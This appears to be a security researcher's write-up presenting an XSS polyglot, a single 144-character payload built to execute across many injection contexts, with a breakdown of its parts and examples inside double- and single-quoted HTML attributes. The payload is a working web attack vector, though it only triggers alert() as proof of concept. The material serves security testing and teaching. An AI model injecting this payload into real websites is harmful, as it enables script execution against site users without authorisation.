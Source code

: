 
## Foreground:
When it comes to testing for cross-site scripting vulnerabilities (a.k.a. XSS), you’re generally faced with a variety of injection contexts where each of which requires you to alter your injection payload so it suites the specific context at hand. This can be too tedious and time consuming in most cases, but luckily, XSS polyglots can come in handy here to save us a lot of time and effort.

***

## What is an XSS polyglot?
An XSS polyglot can be generally defined as any XSS vector that is executable within various injection contexts in its raw form.

## So, what polyglot you came up with?
```javascript

jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */oNcliCk=alert() )//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert()//>\x3e

```

## Anatomy of the polyglot (in a nutshell):
* `jaVasCript:`: A label in ECMAScript; a URI scheme otherwise.
* ```/*-/*`/*\`/*'/*"/**/```: A multi-line comment in ECMAScript; a literal-breaker sequence.
* `(/* */oNcliCk=alert() )`: A tangled execution zone wrapped in invoking parenthesis!
* `//%0D%0A%0d%0a//`: A single-line comment in ECMAScript; a double-CRLF in HTTP response headers.
* `</stYle/</titLe/</teXtarEa/</scRipt/--!>`: A sneaky HTML-tag-breaker sequence.
* `\x3csVg/<sVg/oNloAd=alert()//>\x3e`: An innocuous svg element!!

__Total length: 144 characters.__

## What injection contexts does it cover?
#### HTML contexts covered:
* __Double-quoted tag attributes:__
```html
<input type="text" value="

jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */oNcliCk=alert() )//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert()//>\x3e

"></input>
```
_Demo: <https://jsbin.com/dopepi>_

* __Single-quoted tag attributes:__
```html
<input type='text' value='

jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */oNcliCk=alert() )//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert()//>\x3e

'></input>
```
_Demo: <https://jsbin.com/diwedo>_
